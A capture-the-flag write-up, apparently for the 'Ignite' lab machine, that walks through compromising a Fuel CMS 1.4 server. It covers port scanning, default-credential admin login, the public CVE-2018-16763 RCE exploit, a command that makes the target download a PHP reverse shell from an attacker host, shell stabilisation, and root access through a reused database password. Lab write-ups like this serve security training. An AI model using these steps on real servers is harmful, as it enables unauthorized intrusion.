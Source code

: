 ```yaml
---
sticker: lucide//flame
---
```


# IGNITE

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 80   | HTTP    |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

## RECONNAISSANCE

***

We only got a website, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409164943.png)

We got a `/fuel` directory:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409165238.png)

Maybe default credentials still work, let's try:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.

## EXPLOITATION

***

Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```

Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this:

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409171256.png)

## PRIVILEGE ESCALATION

***

First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409172944.png)

We got a password, let's switch to root:

![](gitbook/cybersecurity/images/Pasted%20image%2020250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250409173046.png)
